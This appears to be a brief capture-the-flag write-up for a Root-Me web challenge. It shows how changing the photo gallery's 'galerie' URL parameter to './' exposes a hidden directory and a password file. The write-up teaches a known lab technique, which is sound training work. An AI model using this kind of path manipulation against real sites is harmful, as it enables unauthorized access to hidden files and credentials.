 We want to find the hidden part of the photo gallery. (nothing strange here...)

We see that the pages are loaded thanks to an argument passed in the url:
```
http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=SOME_DIRECTORY
```

Well, if we are lucky, this is not protected, and we can go to:

```
http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=./
```

which is the current directory. We see something that was hidden before, a **86hwnX2r** directory.

We continue our journey to

```
challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=./86hwnX2r
```

We discover the password file:

```
challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=./86hwnX2r/password.txt
```

Of course, this is not a directory, so the code will not work. But we discovered it, we can directly obtain it by going to:

```
http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r/password.txt
```
